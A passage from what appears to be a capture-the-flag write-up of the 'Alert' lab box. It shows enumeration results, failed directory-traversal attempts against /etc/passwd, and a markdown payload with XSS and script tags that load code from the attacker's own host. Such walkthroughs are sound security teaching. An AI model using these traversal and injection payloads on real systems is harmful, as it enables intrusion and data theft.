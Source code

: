 ```
[####################] - 3m     30000/30000   192/s   http://alert.htb/messages/ 

```

I haven’t seen `/messages`, `messages.php`, and `/uploads`. Visiting `/messages/` and `/uploads/` both return a 403 Forbidden response.

`/messages.php` returns an empty page. Trying `/index.php?page=messages` loads an empty page as well. There is something there, but I can’t access it.

I’m surprised not to see other pages like `alert.php`, `about.php`, and `donate.php`. I’ll show why in [Beyond Root](#indexphp-page-parameter).

### statistics.alert.htb

Visiting this page simply pops an HTTP auth dialog:

![image-20250319120000181](/img/image-20250319120000181.png)

`feroxbuster` doesn’t find anything here. I’ll have to come back once I get creds.

## Shell as albert

### Dead Ends

There are a few things worth looking at here, two of which seemed like dead-ends at least for now.
- `/visualizer.php` takes a `link_share` parameter that looks like a random filename generated on my submission markdown. The names of uploads look unpredictable, but I can try to read outside of the directory. Unfortunately for me, any attempts to read files like `/etc/passwd` either with a absolute path (`link_share=/etc/passwd`) or relative path (`link_share=../../../../../../etc/passwd`) fail. Some basic encoding techniques don’t help. I’ll note that changing a character in a valid markdown file returns a different error message (“Invalid file.”) than one that attempts directory traversal (“Invalid file name.”). This leaks that some kind of filtering is going on.
- Having a single `index.php` page serving as the page template and then it having a parameter (in this case `page`) that specifies the page to `include` inside the template is a common PHP pattern. The link `/index.php?page=donate` suggests there is likely a `donate.php` file that is being included. I’m not able to get other files to load here.
- Given that the site says the admin is checking the messages, I’ll try XSS and HTML injection payloads like including `img` tags, but nothing connects back to me.

I’ll go over why each of these fail in [Beyond Root](#beyond-root).

### Arbitrary File Read

#### Injection Via Markdown

Markdown is typically able to handle HTML, so I’ll try a markdown payload that contains HTML:

```

### local XSS
<img src=x onerror=alert(1) />

### load image
<img src="http://10.10.14.6/image.png" />

### load script
<script src="http://10.10.14.6/script.js"></script>

```
